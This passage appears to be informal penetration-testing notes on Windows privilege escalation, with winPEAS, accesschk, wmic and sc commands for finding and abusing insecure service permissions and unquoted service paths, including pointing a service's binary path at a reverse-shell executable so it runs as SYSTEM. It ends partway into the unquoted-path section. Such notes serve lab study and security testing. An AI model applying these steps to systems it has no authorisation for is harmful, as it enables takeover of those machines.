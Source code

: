 

we can see all users installed services by following command

> wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"

we can see any unqouted paths vector from here manually.etc


.\winpeas.exe quiet servicesinfo

      we have to replace the service names with names found on target from winpeas
### Insecure Service Permissions

this exploit is like path manipulation.WE see that if we have permissions to change settings of a certain service
and we can stop or start the service then we can poiny it to our malicious executable file and when we restart the service
our executable run as SYSTEM



we can use following command to see permissions of services using winpeas

> .\winpeas.exe servicesinfo

we get the services which we can possibly modify

Now we use accesschk.exe to see the which permissions we can abuse of that service

> .\accesschk.exe /accepteula -uwcqv username servicename

!!This vector only work if we have stop or start service permission available else its a rabithole.
!! The service must also have SERVICE_CHANGE_CONFIG which allows us to modify permissions


Now we can interact with service 

> sc qc servicename

!!The service must also have SERVICE_START_NAME set to system so we know it runs as SYSTEM.

Now we will change the BInarypath to  our executable

> sc config servicename binpath= "\"C:\PrivEsc\reverse.exe\""


We can see the status of service by

> sc query servicename

 If it is running then we have to stop the service and again start the service

If it is stopped then just start the service and our file will be executed

> net start servicename


### Unquoted service path

we can abuse this service due to insecure path validity in windows. service name is unquotedsvc
 suppose we have a path

c:\program files\common files\file.exe
